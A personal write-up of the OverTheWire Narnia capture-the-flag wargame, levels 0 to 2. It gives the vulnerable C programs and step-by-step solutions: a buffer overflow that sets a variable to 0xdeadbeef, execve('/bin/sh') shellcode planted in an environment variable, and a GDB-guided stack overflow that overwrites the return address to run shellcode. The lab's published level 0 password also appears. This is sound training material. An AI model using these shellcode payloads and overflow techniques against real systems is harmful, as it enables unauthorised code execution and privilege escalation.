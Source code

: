 #Narnia
Narnia is a CTF hosted at overthewire.org/wargames/narnia.  My writeups for the levels will be posted here.
#Level0
Login to level 0 with `ssh narnia0@narnia.labs.overthewire.org` with password naria0.
The levels are all located in the /narnia directory once you are logged in, and the source code for each level is provided.
narnia0.c:
```
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef)
		system("/bin/sh");
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}
```
Looking at the code we can see that if we overflow buf[20], it will overflow in to val. In order to get the shell, we need to make val contain 0xdeadbeef.
I first entered `perl -e 'print "A"x20 . "\xef\xbe\xad\xde"' | ./narnia0`.  This passed the comparison and allowed the system("/bin/sh") line to execute, but the shell was immediately closed because I didn't have any input to give it. 
Next, I modified my input to be `(perl -e 'print "A"x20 . "\xef\xbe\xad\xde"'; cat) | ./narnia0` which allowed me to keep the shell open (with the shell open as narnia1)
#Level1
```
#include <stdio.h>

int main(){
        int (*ret)();

        if(getenv("EGG")==NULL){
                printf("Give me something to execute at the env-variable EGG\n");
                exit(1);
        }

        printf("Trying to execute EGG!\n");
        ret = getenv("EGG");
        ret();

        return 0;
}
```
So this code is going to get an environmental variable and then execute it.  Therefore, we want to put some executable code in to an evironmental variable called EGG.  I used the shellcode for execve("/bin/sh") I found at http://shell-storm.org/shellcode/files/shellcode-811.php and issued the command `export EGG=`perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" . "\xe3\x89\xc1\x89\xc2\xb0\x0b" ."\xcd\x80\x31\xc0\x40\xcd\x80"'``.  When I ran the program, I was given a shell as narnia2.
#Level2
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
        char buf[128];

        if(argc == 1){
                printf("Usage: %s argument\n", argv[0]);
			exit(1);
        }
        strcpy(buf,argv[1]);
        printf("%s", buf);

        return 0;
}
```
In this level, the input that we pass the program is copied in to buf[128] using strcpy.  I played around with the inputs to the program and saw that when I sent it Ax139, the program executed with no problems, but when I sent it Ax140, it crashed with "Illegal instruction". 
I opened it up in GDB to get a better idea of what I needed to overflow it with:
```
Dump of assembler code for function main:
   0x0804845d <+0>:	push   ebp
   0x0804845e <+1>:	mov    ebp,esp
=> 0x08048460 <+3>:	and    esp,0xfffffff0
   0x08048463 <+6>:	sub    esp,0x90
   0x08048469 <+12>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x0804846d <+16>:	jne    0x8048490 <main+51>
   0x0804846f <+18>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048472 <+21>:	mov    eax,DWORD PTR [eax]
   0x08048474 <+23>:	mov    DWORD PTR [esp+0x4],eax
   0x08048478 <+27>:	mov    DWORD PTR [esp],0x8048560
   0x0804847f <+34>:	call   0x8048310 <printf@plt>
   0x08048484 <+39>:	mov    DWORD PTR [esp],0x1
   0x0804848b <+46>:	call   0x8048340 <exit@plt>
   0x08048490 <+51>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048493 <+54>:	add    eax,0x4
   0x08048496 <+57>:	mov    eax,DWORD PTR [eax]
   0x08048498 <+59>:	mov    DWORD PTR [esp+0x4],eax
   0x0804849c <+63>:	lea    eax,[esp+0x10]
   0x080484a0 <+67>:	mov    DWORD PTR [esp],eax
   0x080484a3 <+70>:	call   0x8048320 <strcpy@plt>
   0x080484a8 <+75>:	lea    eax,[esp+0x10]
   0x080484ac <+79>:	mov    DWORD PTR [esp+0x4],eax
   0x080484b0 <+83>:	mov    DWORD PTR [esp],0x8048574
   0x080484b7 <+90>:	call   0x8048310 <printf@plt>
   0x080484bc <+95>:	mov    eax,0x0
   0x080484c1 <+100>:	leave  
   0x080484c2 <+101>:	ret    
End of assembler dump.
(gdb) break *0x080484a3
```
I set a break point write before the call to strcpy() and ran the program with an input of 140 A's. (`r `perl -e 'print "A"x140'``)
The syntax for strcpy is strcpy(char *dest,char *src).  Since I broke at strcpy, I can print out the stack to see what those two arguments are:
```
(gdb) x/4wx $esp
0xffffd640:	0xffffd650	0xffffd8a4	0x00000000	0x00000000
```
The destination is at 0xffffd650 and the source is at 0xffffd8a4
Additionally, with `info frame` I see that eip is saved at 0xffffd6dc.  0xffffd6dc-0xffffd650=0x8c(140 decimal), which confirms why we saw the program crashing early.  We have a couple of options of how to exploit at this point, but I'll choose the simples and place my shellcode in buf[] and overwrite eip with the location of buf[] since my shellcode is only 28 bytes so I have plenty of space for it.
My shellcode will take 28 bytes, so will print my shellcode, then 140-28=112 A's and then my return address which is 0xffffd650.  Taking endianess in to account, the final exeuction is:
`./narnia2 `perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" . "\xe3\x89\xc1\x89\xc2\xb0\x0b" ."\xcd\x80\x31\xc0\x40\xcd\x80" . "A"x112 . "\x50\xd6\xff\xff"'``
When I execute this I'm granted a shell as narnia3 
